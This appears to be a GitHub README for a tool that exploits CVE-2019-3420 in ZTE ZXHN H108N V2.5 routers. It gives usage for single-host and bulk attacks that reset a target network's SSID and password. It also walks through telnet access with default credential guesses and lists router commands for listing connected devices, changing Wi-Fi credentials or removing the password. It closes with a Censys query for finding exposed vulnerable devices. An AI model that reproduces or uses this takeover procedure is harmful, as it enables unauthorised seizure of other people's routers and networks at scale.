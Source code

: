 # Zata-Router-Takeover | 𓊃𓂝𓏏𓂝 𓏏𓂝𓎡𓂋𓏏𓃭
ZTE ZXHN H108N V2.5 Router Takeover Tool<br>
CVE-2019-3420
### Single Host Attack: <br>
java main (Gateway IP / IP of the Portal) (ssid) (Password) <br>
ssid = Name of the Network (Wireless) <br>
Password = Password of the Network (Wireless) <br>
### Multi Host Attack: <br>
java bulk (ssid) (Password) <br>
in hosts.txt type: <br>
192.168.1.1,192.168.1.11, <br>
to Attack 192.168.1.1 and 192.168.1.11. <br>
### 2-Telnet Attack (If port 23 is open):
 First, Let’s get our Gateway IP Address. Which is often 192.168.1.1.. <br>
 Then let’s scan our IP with nmap, We’ll see that port 23 is open. <br>
 let’s establish a connection. He Asks for the Username and Password.. <br>
 We can use https://github.com/Ligeti15/ZXHN-H108N-Login .Or try these. <br>
 Usernames: admin root zte public toor <br>
 Passwords: admin root zte public toor <br>
 BOOM ! .Now we have access to the Gateway. You will see something like ZTE> <br>
 Commands: <br>
 - ip dhcp br0 status → See Devices Connected to the Router <br>
 - rt node ssid [NAME] → Change the SSID of the Wi-Fi to [NAME] <br>
 - rt node wpapsk [PASSWORD] → Change the Password of the Wi-Fi to [PASSWORD] <br>
 - rt node save → Save Changes <br>
 - rt node authmode open → Remove the Password and Open the Network <br>
 - show all / sys atsh / rtwlan rtdisp → Show Information <br>
 Also You can Discover all Options Available with these Commands: <br>
 - ? → General Commands <br>
 - rt ? → Wireless Commands <br>
 *You can Search Censys for Vulnerable Devices using this Query: (80.http.get.title%3A+ZXHN+H108N+V2.5)*
